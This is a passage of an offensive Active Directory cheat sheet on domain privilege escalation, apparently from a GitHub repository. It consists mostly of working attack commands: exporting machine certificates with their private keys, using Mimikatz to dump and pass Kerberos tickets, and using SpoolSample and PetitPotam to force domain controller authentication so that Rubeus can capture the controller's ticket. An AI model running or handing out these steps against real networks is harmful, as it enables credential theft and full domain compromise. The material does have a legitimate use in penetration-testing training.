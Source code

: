 ## Domain Privesc - Secrets in Registries

```powershell
# start invisi-shell on the target machine, then:
ls cert:\LocalMachine\My

# export certificate and store on disk (password is used for importing - not the users password)
ls cert:\LocalMachine\My\<thumbprint> | Export-PfxCertificate -FilePath c:\Users\Public\<user>.pfx -Password (ConvertTo-SecureString -String 'SecretPass@123' -Force -AsPlainText)
# copy to local machine for later use
```

## Domain Privesc - Delegation

**Unconstrained Delegation:**  

```powershell
# Powerview
Get-NetComputer -UnConstrained
# Using ActiveDirectory module:
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}

# Compromise where unconstrained delegation is enabled
# After the connection, we can export TGTs using the below command:
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
# The ticket could be reused:
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

Use the spooler service to force a connection from a target machine in the domain:  
Use this against the domains DC to get the DC$ hash to create a new shell with this machine accounts privileges.  

```powershell
# Use MS-RPRN.exe (https://github.com/leechristensen/SpoolSample):
.\MS-RPRN.exe \\<target-machine-FQDM> \\<FQDM-of-unconstrained-delegation-machine>
# We can capture the TGT of of the target machine by using Rubeus (https://github.com/GhostPack/Rubeus) on the machine with unconstrained delegation:
.\Rubeus.exe monitor /interval:5 /nowrap

###

# We can also use PetitPotam.exe (https://github.com/topotam/PetitPotam) on the machine with unconstrained delegation:
.\PetitPotam.exe <machine-w-unconstrained-delegation> <target-machine>
# On the machine with unconstrained delegation:
.\Rubeus.exe monitor /interval:5
# PetitPotam uses EfsRpcOpenFileRaw function of MS-EFSRPC (Encrypting File System Remote Protocol) protocol and doesn't need credentials when used against a DC.
```

Dump creds:  
